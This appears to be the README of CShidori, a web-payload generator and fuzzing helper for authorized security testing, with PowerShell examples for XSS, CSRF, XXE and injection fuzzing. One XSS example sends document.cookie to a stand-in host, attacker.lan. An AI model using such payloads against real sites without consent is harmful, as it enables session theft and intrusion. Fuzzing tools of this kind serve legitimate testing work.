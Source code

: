 # CShidori

Web payloads generator and fuzzer helper

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

## Payloads generation

- Fuzzing list
- XSS
- JSON
- XML
- SOAP
- XSD
- GET
- CSRF
- XXE
- Mutation
- Encoding

## Exemples

### Combine a wordlist with Chidori to test a specific parameter:

```powershell
gc wordlist.txt |%{ .\CShidori.exe xss "$_" }
gc wordlist.txt |%{ .\CShidori.exe mut 5 "$_" }
```

### Generate get/post requests to tests

```powershell
.\CShidori.exe bc |%{ .\CShidori.exe get "?bar=foo&foo=bar" $_ }
.\CShidori.exe bc |%{ .\CShidori.exe json request.json $_ }
```

### Generate a xml request from an xsd file and test all parameters

```powershell
.\CShidori.exe xsd schema.xsd > request.xml
.\CShidori.exe bc |%{ .\CShidori.exe xml request.xml $_ }   
```

### Send the generated payloads with Ffuf through Burp

```powershell
.\CShidori.exe bc > list ; .\ffuf.exe -u https://target/FUZZ -w list:FUZZ -replay-proxy http://127.0.0.1:8080
```

## Usage

### XSS / Injections

```powershell
.\CShidori.exe xss 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

```powershell
.\CShidori.exe json ..\testing\test.json "'"
```

### XML

```powershell
.\CShidori.exe xml ..\testing\exemple.xml "'"
```

### SOAP

```powershell
.\CShidori.exe soap ..\testing\exemple-helloservice.wsdl
```

### XSD

```powershell
.\CShidori.exe xsd ..\testing\exemple.xsd
```

### GET

```powershell
.\CShidori.exe get "?bar=foo&foo=bar" "'"
```

### CSRF

```powershell
.\CShidori.exe csrf post http://target.lan "name1=value1&name2=value2"
.\CShidori.exe csrf get http://target.lan "name1=value1&name2=value2"
```

### XXE

```powershell
.\CShidori.exe xxe file
.\CShidori.exe xxe call 
.\CShidori.exe xxe all
```

### Mutation

```powershell
.\CShidori.exe mut 5 test
```

### Encode

```powershell
.\CShidori.exe enc "<script>alert(1)</script>"
```

## Miscellaneous scripts

### CShidori-Spring.ps1

Security hotspots, endpoints, parameters and wsdl grabber from Spring projects

```powershell
. .\Spring-parser.ps1
Get-SpringArtefact -source .\project\repository -output .
```